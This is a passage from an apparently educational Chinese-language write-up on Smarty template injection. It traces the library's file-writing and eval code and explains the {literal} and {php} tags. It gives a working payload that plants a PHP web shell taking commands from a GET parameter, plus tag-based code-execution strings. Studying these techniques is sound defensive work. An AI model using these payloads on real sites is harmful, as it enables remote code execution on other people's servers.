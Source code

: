 我们在往上面看，可以看到这个方法是在`class Smarty_Internal_Runtime_WriteFile`下的，

我们注意看这段代码

```php
if (!file_put_contents($_tmp_file, $_contents)) {
            error_reporting($_error_reporting);
            throw new SmartyException("unable to write file {$_tmp_file}");
       }
```

这段代码将文件内容写入临时文件，如果写入失败，则恢复先前的错误报告级别，并抛出异常。

这里的具体解释我会在下面的CVE-2017-1000480具体讲到，先挖个坑，这里写入临时文件，在loadCompiledTemplate函数下，存在语句

```php
eval("?>" . file_get_contents($this->filepath));
```

就有了

```php
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

我们将`<?php passthru($_GET['cmd']); ?>`写入了临时php文件中

`self::clearConfig()` 是一个 Smarty 内部方法，用于清除模板引擎的配置选项。

`$SCRIPT_NAME` 是一个在 PHP 中预定义的变量，用于表示当前执行脚本的文件路径和名称。

### 标签

#### {$smarty.version}

作业：获取smarty的版本信息

#### {literal}

此标签的利用方法仅仅是在php5.x的版本中才可以使用，因为在 PHP5 环境下存在一种 PHP 标签， `<script>language="php"></script>，`我们便可以利用这一标签进行任意的 PHP 代码执行。但是在php7的版本中`{literal}xxxx;{/literal}`标签中间的内容就会被原封不动的输出，并不会解析。

作用：{literal} 可以让一个模板区域的字符原样输出。这经常用于保护页面上的Javascript或css样式表，避免因为 Smarty 的定界符而错被解析。

所以我们就可以利用其的作用来进行xss攻击SSTI等漏洞利用。

```php
{literal}<script>language="php">xxx</script>;{/literal}
```

#### {php}{/php}

用于执行php代码

```php
{php}phpinfo();{/php}  
```

但是这个方法在Smarty3版本中已经被禁用了，不过多赘述了。

#### {if}{/if}
